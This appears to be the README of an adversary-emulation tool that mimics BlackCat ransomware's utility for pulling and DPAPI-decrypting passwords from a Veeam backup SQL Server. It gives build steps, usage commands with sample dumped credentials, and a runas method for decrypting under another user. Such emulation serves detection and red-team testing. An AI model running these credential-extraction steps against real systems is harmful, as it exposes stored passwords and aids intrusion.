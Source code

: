 ## InfoStealer

This C# utility emulates BlackCat's custom utility to query Veeam backup SQL Server to extract passwords.

## Building

* Leverage CMake to build the executable in the project's root directory.

```
$> cmake -B .
```

*Note, CMakeLists is wrapping dotnet commands to build the CSharp application*

This command will generate a debug and release build. You will want the release build,
this is located at ```infostealer\sqlsharp\bin\x64\Release\net6.0-windows\win-x86\publish```

Build with dotnet

```
dotnet restore InfoStealer.sln

dotnet publish InfoStealer.sln -r win-x86 -p:PlatformTarget=x86 -p:PublishSingleFile=true --sc -c Release -p:IncludeNativeLibrariesForSelfExtract=true
```

## Execution

A DPAPI blob can be generated using the `gen_dpapi_blob.ps1` script. The script takes 1 argument
`-String` and encrypted the provided string with DPAPI.
Example:

```
./gen_dpapi_blob.ps1 -String Sup3rS3cr3tP@ssword1!
```

* Query local MS SQL server (**localhost**) with specific username (**testlogin**), and password (**Password**)

```
C:\> .\infostealer.exe dpapi localhost testlogin Password*

test-1, abc123, test-1 user
test-2, hunter2, test-2 user
test-3, iloveu, test-3 user
test-4, qwerty, test-4 user
test-5, password, test-5 user
```

* Decrypt a provide dpapi base64 encoded blob:

```
InfoStealer.exe string AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAZGBrWVmdPka5Sod9PXlnJgAAAAACAAAAAAAQZgAAAAEAACAAAAAPXaR6tzM6G7mdC2NnJ7u2On2rDD1FzQdBKcaf1uhWkwAAAAAOgAAAAAIAACAAAAD8ZUG03DrI9ncxu4Csr6GYhu7vnO2wEi8ZscVSK+qL2RAAAABoGWkFNCJFa1oAlN63k+I/QAAAABx0tHePfk99nrSpOqsbmOaAR8b95SOCBRZKbOnsOaDUcVjMWAeQ2AptPJz2HtfXrhSPEHHbvD/H8mG4gr6yaB8=
```

* Execute Help menu

```
C:\> infostealer.exe -h
[help] sqlsharp.exe <type> <SQL Database Source> username password
         Ex: sqlsharp.exe dpapi localhost veemadmin Password*
         Ex: sqlsharp.exe string <base64 encoded dpapi blob>
         type: base64, dpapi, string; (a string is a base64 encoded dpapi blob passed directly in)
```

### Executing under another user context

If the passwords are DPAPI encrypted using another users password, you can run the applcation
using that users context as long as you have the users password:
Open a command prompt, then enter the following:

```
runas /user:<USERNAME> cmd

InfoStealer.exe string AQAAAN...
```

## CTI

* [Noberus Ransomware: Darkside and BlackMatter Successor Continues to Evolve its Tactics](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/noberus-blackcat-ransomware-ttps)

* [Decrypting VEEAM Passwords](https://blog.checkymander.com/red%20team/veeam/decrypt-veeam-passwords/)
